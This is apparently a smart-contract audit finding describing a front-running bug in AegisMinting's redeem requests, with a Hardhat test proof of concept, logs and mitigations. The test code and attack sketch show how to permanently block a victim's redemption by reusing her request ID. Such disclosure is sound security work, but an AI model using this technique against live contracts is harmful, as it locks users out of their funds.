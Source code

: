 Prehistoric Honeysuckle Mink

High

# Front-Running redeem request with same request Id blocks legitimate redeems

## Summary:

The `requestRedeem` function in `AegisMinting.sol` has a vulnerability where request IDs can be front-run and permanently blocked, preventing legitimate users from creating redeem requests. The issue stems from not properly handling request ID reuse and not clearing request data after completion.

## Vulnerability Details:

The vulnerability occurs in the [`requestRedeem`](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L277) function where:

1. The request ID is derived from `order.additionalData` which can be controlled by users
2. Once a request ID is used, its timestamp is never reset to 0 even after the request is completed (approved/rejected/withdrawn)
3. The function reverts if it finds a request with non-zero timestamp for the same ID

An attacker can:

- Monitor pending transactions for redeem requests
- Front-run them by submitting a transaction with the same request ID with 1 wei YUSD amount
- The transaction will succeed and block the original request
- The original transaction will revert because the request ID already exists with a non-zero timestamp
- This permanently blocks that request ID since:
  - The timestamp will be set to block.timestamp
  - Future attempts to use the same ID will fail due to the timestamp check
  - The timestamp is never cleared

## Impact:

- Legitimate users can have their redeem requests permanently blocked
- Attackers can systematically block all redeem requests by front-running
- Loss of user funds as they cannot redeem their YUSD tokens
- Degradation of protocol functionality and user trust

## Proof of Concept:

1. Alice prepares a redeem request with request ID "alice-123"
2. Attacker sees this in mempool and quickly sends:

```solidity
redeemOrder({
  ...,
  additionalData: abi.encode("alice-123"),
  yusdAmount: 1 wei
})
```

3. Alice's transaction now fails because request ID "alice-123" already exists
4. The request remains blocked forever since the timestamp is never reset

### Proof Of Code:

1. Add the following code to `6_aegis_minting_redeem_spec.ts` in `test` directory:
2. Run the test using the command `npx hardhat test`

```ts
it.only("Front running redeemRequest to block legitimate redeem requests", async () => {
  const [owner, alice, attacker] = await ethers.getSigners();

  const {
    aegisMintingContract,
    aegisMintingAddress,
    assetAddress,
    yusdContract,
    aegisConfig,
  } = await loadFixture(deployFixture);

  await aegisConfig["whitelistAddress(address,bool)"](attacker, true);
  await aegisConfig["whitelistAddress(address,bool)"](alice, true);

  await yusdContract.setMinter(owner);
  await yusdContract.mint(alice, ethers.parseEther("100"));
  await yusdContract.mint(attacker, "1");
  await yusdContract.setMinter(aegisMintingAddress);
  // Approve YUSD to be sent by AegisMinting contract from sender
  await yusdContract
    .connect(alice)
    .approve(aegisMintingAddress, ethers.parseEther("1000"));
  await yusdContract
    .connect(attacker)
    .approve(aegisMintingAddress, ethers.parseEther("1000"));

  // request id of alice
  const requestId = "alice-123";
  const collateralAmount = ethers.parseEther("10");
  const yusdAmount = ethers.parseEther("9.99");
  const redeemOrder_1 = {
    orderType: OrderType.REDEEM,
    userWallet: alice.address,
    collateralAsset: assetAddress,
    collateralAmount: collateralAmount,
    yusdAmount: yusdAmount,
    slippageAdjustedAmount: yusdAmount,
    expiry: (await time.latest()) + 10000,
    nonce: Date.now(),
    additionalData: encodeString(requestId),
  };
  const redeemOrder_2 = {
    orderType: OrderType.REDEEM,
    userWallet: attacker.address,
    collateralAsset: assetAddress,
    collateralAmount: 1,
    yusdAmount: 1,
    slippageAdjustedAmount: 0,
    expiry: (await time.latest()) + 10000,
    nonce: Date.now(),
    additionalData: encodeString(requestId),
  };
  const signature = await signOrder(redeemOrder_1, aegisMintingAddress);
  const signature_2 = await signOrder(redeemOrder_2, aegisMintingAddress);

  console.log(
    "Attacker front runs the legitimate redeem request with requestId:",
    requestId
  );

  // Attacker redeemRequest
  await aegisMintingContract
    .connect(attacker)
    .requestRedeem(redeemOrder_2, signature_2);

  console.log(
    "Now users redeem goes through with same requestId:",
    requestId,
    "and reverts"
  );

  // Alice redeemRequest is reverted with InvalidRedeemRequest
  await expect(
    aegisMintingContract.connect(alice).requestRedeem(redeemOrder_1, signature)
  ).to.be.revertedWithCustomError(aegisMintingContract, "InvalidRedeemRequest");
});
```

**Logs**

```ts
Attacker front runs the legitimate redeem request with requestId: alice-123
Now alice's redeem goes through with same requestId: alice-123 and reverts
        ✔ Front running redeemRequest to block legitimate redeem requests (1509ms)
```

## Recommended Mitigation:

1. Reset request timestamp to 0 when request is completed (approved/rejected/withdrawn):
2. Consider using a different request ID scheme that:

   - Is not user-controllable (e.g., auto-incrementing counter)
   - Or uses user address + nonce to prevent collisions